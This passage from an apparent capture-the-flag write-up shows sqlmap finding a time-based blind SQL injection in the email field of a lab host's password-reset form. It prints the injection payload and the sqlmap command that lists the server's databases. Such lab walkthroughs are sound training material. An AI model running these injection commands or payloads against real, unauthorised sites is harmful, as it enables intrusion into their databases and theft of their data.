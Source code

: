 ```bash
    Title: MySQL > 5.0.12 AND time-based blind (heavy query)
    Payload: _token=mXkUU3V1Mzk5ir73XlvV72lwR2cJaPDkwFMTY5yD&email=test' AND 8904=(SELECT COUNT(*) FROM INFORMATION_SCHEMA.COLUMNS A, INFORMATION_SCHEMA.COLUMNS B, INFORMATION_SCHEMA.COLUMNS C WHERE 0 XOR 1)-- NnfP
---
do you want to exploit this SQL injection? [Y/n] Y
[09:53:43] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Nginx 1.18.0
back-end DBMS: MySQL > 5.0.12
[09:53:43] [INFO] you can find results of scanning in multiple targets mode inside the CSV file '/home/kali/.local/share/sqlmap/output/results-04252024_0953am.csv'
```

It found that the database used is `MySQL > 5.0.12`.

Now let's search for the databases names.

```terminal
$ sqlmap -u http://usage.htb/forget-password --form --batch --dbs                                                                                                                                                                         
        ___                                                                                                                                                                                                                                 
       __H__                                                                                                                                                                                                                                
 ___ ___[.]_____ ___ ___  {1.8.3#stable}                                                                                                                                                                                                    
|_ -| . [']     | .'| . |                                                                                                                                                                                                                   
|___|_  ["]_|_|_|__,|  _|                                                                                                                                                                                                                   
      |_|V...       |_|   https://sqlmap.org                                                                                                                                                                                                
                                                                                                                                                                                                                                            
[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not re
sponsible for any misuse or damage caused by this program                                                                                                                                                                                   
                                                                                                                                                                                                                                            
[*] starting @ 10:03:04 /2024-04-25/                                                                                                                                                                                                        
[...] Redacted
---
do you want to exploit this SQL injection? [Y/n] Y
[10:03:21] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Nginx 1.18.0
back-end DBMS: MySQL > 5.0.12
[10:03:21] [INFO] fetching database names
[10:03:21] [INFO] fetching number of databases
[10:03:21] [INFO] resumed: 3
[10:03:21] [INFO] resumed: information_schema
[10:03:21] [INFO] resumed: performance_schema
[10:03:21] [INFO] resumed: usage_blog
```